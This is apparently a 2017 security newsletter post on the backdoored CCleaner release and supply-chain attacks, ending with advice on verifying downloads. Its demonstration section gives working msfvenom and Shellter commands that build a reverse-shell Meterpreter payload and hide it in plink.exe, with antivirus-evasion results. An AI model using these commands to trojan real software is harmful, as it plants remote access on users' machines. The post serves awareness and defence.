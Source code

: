 ```yaml
---
layout: email
title: CCleaner trojaned, supply-chain attacks, and an intro to backdooring software
---
```


Big news earlier in the week: popular system cleaning/placebo app CCleaner was backdoored by someone who inserted fairly sophisticated malware without breaking the developer's code-signing certificate. At first glance it looks like they've either compromised the developer's build systems, or it's an inside job.

Cisco Talos made the discovery, and has an excellent writeup on their blog. It's quite long and goes into technical detail, but it's well worth reading in full: 

[**CCleanup: A Vast Number of Machines at Risk**](http://blog.talosintelligence.com/2017/09/avast-distributes-malware.html)

>Supply chain attacks are a very effective way to distribute malicious software into target organizations. This is because with supply chain attacks, the attackers are relying on the trust relationship between a manufacturer or supplier and a customer. This trust relationship is then abused to attack organizations and individuals and may be performed for a number of different reasons. The Nyetya worm that was released into the wild earlier in 2017 showed just how potent these types of attacks can be. Frequently, as with Nyetya, the initial infection vector can remain elusive for quite some time. [...]
>
>Talos recently observed a case where the download servers used by software vendor to distribute a legitimate software package were leveraged to deliver malware to unsuspecting victims. For a period of time, the legitimate signed version of CCleaner 5.33 being distributed by Avast also contained a multi-stage malware payload that rode on top of the installation of CCleaner. CCleaner boasted over 2 billion total downloads by November of 2016 with a growth rate of 5 million additional users per week.

This is a pretty big deal. Avast has egg on their face as a security vendor, and everyone involved will have burned a fair bit of trust with their users (at least the ones who happen to see the news).

The silver lining is that this should serve as yet another wake-up call regarding supply chain security, because CCleaner is probably the highest-profile application to be the victim of a supply-chain attack. [Nyetya/NotPetya](https://www.theregister.co.uk/2017/06/28/petya_notpetya_ransomware/), while it wreaked absolute havok in Ukraine and companies who did business there, wasn't well known by people outside of tech circles - and the application used for the supply-chain attack was only used by people who paid tax in Ukraine.

CCleaner, however, is used worldwide, and often by people who are just technical enough to freak the hell out when they read this sort of story.

### Supply Chain Attacks

It's worth noting just how devastatingly effective this sort of attack can be. Applications like CCleaner are widely used, the installers and update mechanisms of these sorts of applications usually enjoy the full trust of users, and they typically need to be run with elevated privileges.

In many cases this trust is misplaced (poor security practices by developers, updates served over insecure HTTP, etc), but losing this trust would almost be more dangerous than the actual attacks: **the security industry has spent *decades* trying to persuade people to patch their stuff, and a few good attacks like this will completely undermine that message.**

It's not just third-party applications, either. Managed Service Providers (MSPs) are ubiquitous in industry, and often the entire IT department of a given company is outsourced to a provider such as Fujitsu or HP Enterprise. If one of these MSPs is owned, the attacker gets the keys to the kingdom for many other organisations, many of whose employees may not even be aware that they're using a MSP.


### Backdooring Applications - A Demonstration

It's also worth outlining just how easy the technical part of this attack - backdooring the CCleaner installer - was to do. This attack was more sophisticated than what I'm about to demonstrate (they built the malware into the application before compilation), but not by much. The hard part is getting access to the developer's systems, not the infection itself.

Below are a couple of screenshots showing a [VirusTotal](https://www.virustotal.com) scan on a piece of malware I generated and uploaded: a Meterpreter payload. Meterpreter is an open-source Remote Access Trojan (RAT), which is the default payload used by the Metasploit Framework. It's not particularly stealthy, which is kind of the point of this demonstration.

VirusTotal is a website run by Google which scans uploaded files with a number of popular virus checking tools, and provides the results to subscribers.

If none of the above words made sense, don't worry, the details aren't important. What is important is the comparison between the screenshots below:

**Screenshot 1 - raw Meterpreter executable ([VirusTotal link](https://www.virustotal.com/#/file/ca58713ed155898e677de4f3c54f1f0a13c45c0fcc1a757be218a62224ff78a4/detection)):**
![Raw Meterpreter executable](https://markeldo.com/images/vt-raw-meterpreter.png)

The first screenshot is the basic Meterpreter malware, without any attempt at avoiding detection by antivirus (AV) solutions. It's sitting there naked. This one gets 49/64 detections, with all of the major tools detecting the malware. This is actually worse than I'd expect - only the really really useless AV solutions should miss something this obvious.

​**Screenshot 2 and 3 - plink.exe infected with Meterpreter ([VirusTotal link](https://www.virustotal.com/#/file/a306e457efbffff03c2c9e756acd64f25d207f4bcd3442ffad5ecf0066b53dc4/detection)):**
![plink.exe infected with Meterpreter](https://markeldo.com/images/vt-plink-1.png)
![plink.exe infected with Meterpreter](https://markeldo.com/images/vt-plink-2.png)

The second and third screenshots show what happens when I backdoor the popular plink.exe administration tool with the same Meterpreter payload (Plink is the command-line version of Putty, for those familiar with the latter). The result is an executable which works exactly the same way that a normal Putty/Plink user would expect, but in the background it executes the Meterpreter malware and calls back to me.

As you can see from the screenshots, the trojaned plink.exe is significantly more effective at bypassing detection by popular AV solutions, with only 7 of 64 tools detecting it as malicious.

As an aside, Plink/Putty is an excellent target for this sort of supply chain attack because of its ubiquity and demographic - it's used primarily by system administrators, who are likely to be 1) running with administrative privileges and 2) have privileged access to lots of other interesting things (the reason they're using Putty in the first place).

For those who would like to try this at home, I used the free tool [Shellter](https://www.shellterproject.com/) to backdoor the plink.exe executable, with the following command line:

`$ wine /usr/share/shellter/shellter.exe -a --stealth -f plink.exe -p meterp-revhttps.raw`

The meterp-revhttps.raw is a basic Meterpreter payload generated using msfvenom. The .exe in the first screenshot was generated the same way, but with '-f exe' and a less obvious filename (some AV solutions flag on filename, or at least use it as one of their signals for 'badness').

`$ msfvenom -p windows/meterpreter/reverse_https LHOST=10.8.0.80 LPORT=443 -f raw > meterp_revhttps.raw`

The point I'm trying to make here is that this stuff isn't hard - I didn't write Shellter, Meterpreter, or Metasploit, and this demonstration didn't take any crazy technical skill. All I needed was a laptop and an internet connection. This is script-kiddy stuff, and yet every major antivirus solution (with the notable and [topical](http://www.bbc.com/news/world-us-canada-41262049) exception of Kaspersky) misses the backdoored plink.exe.


### Defending against supply chain attacks is *hard*

It's easy to become paranoid when you see something like this, and resolve never to download third-party software again. That's a bit drastic, but there are several simple steps that you can take to reduce your likelihood of becoming the next victim of a supply chain attack:
* Avoid downloading software from small fly-by-night developers, unless you really really need to
* When downloading software, use a trusted source, i.e. the developer's website, not a random link on a forum
* Only download software from websites which use HTTPS, not HTTP (and check the actual download link, not just the page it's served from)
* Ideally, compare the MD5/SHA1/SHA256 hash of the downloaded file with the one provided on the developer's website, as a basic check for malicious modification
* Even more ideally (but too much hassle for most people): compare the hashes provided by the developer to ensure it matches their GPG signature. As an example, Kali provides this and instructions for how to verify the signature (see under "*Download Kali Linux Images Securely*" [here](https://www.kali.org/downloads/)).

Of course, none of the above would have helped in the case of CCleaner - it was compromised by people who knew what they were doing.

At the end of the day, remember your [threat model](https://arstechnica.com/information-technology/2017/07/how-i-learned-to-stop-worrying-mostly-and-love-my-threat-model/): individuals are extremely unlikely to be targeted by a sophisticated threat, unless they happen to have access to something that makes the effort worth it. Just don't expect your antivirus to save you if someone owns the developers of your favourite software.